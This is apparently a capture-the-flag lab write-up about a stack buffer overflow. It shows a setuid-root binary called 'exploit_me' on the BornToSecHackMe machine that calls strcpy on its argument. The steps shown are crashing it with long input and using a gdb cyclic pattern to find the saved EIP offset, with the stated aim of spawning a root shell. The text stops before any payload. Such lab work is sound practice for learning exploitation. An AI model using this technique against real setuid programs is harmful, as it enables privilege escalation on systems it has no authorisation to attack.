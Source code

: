 ```bash
zaz@BornToSecHackMe:~$ ls -l
total 5
-rwsr-s--- 1 root zaz 4880 Oct  8  2015 exploit_me
drwxr-x--- 3 zaz  zaz  107 Oct  8  2015 mail
```

The executable use unsafe function strcpy. Strcpy write into static buffer from user argument.

```bash
zaz@BornToSecHackMe:~$ ltrace ./exploit_me TOTO
__libc_start_main(0x80483f4, 2, 0xbffff7e4, 0x8048440, 0x80484b0 <unfinished ...>
strcpy(0xbffff6c0, "TOTO")                                                                                      = 0xbffff6c0
puts("TOTO"TOTO
)                                                                                                    = 5
+++ exited (status 0) +++
```

We can put exploit_me in default by giving it an argument of great length

```bash
zaz@BornToSecHackMe:~$ ./exploit_me BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)
zaz@BornToSecHackMe:~$
```

## Exploit

### With unsafe strcpy we can control save eip, so control the flow execution and spanw a shell

#### 1. find eip with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/ and gdb

```bash
zaz@BornToSecHackMe:~$ gdb ./exploit_me
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/zaz/exploit_me...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/zaz/exploit_me Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()
(gdb)
```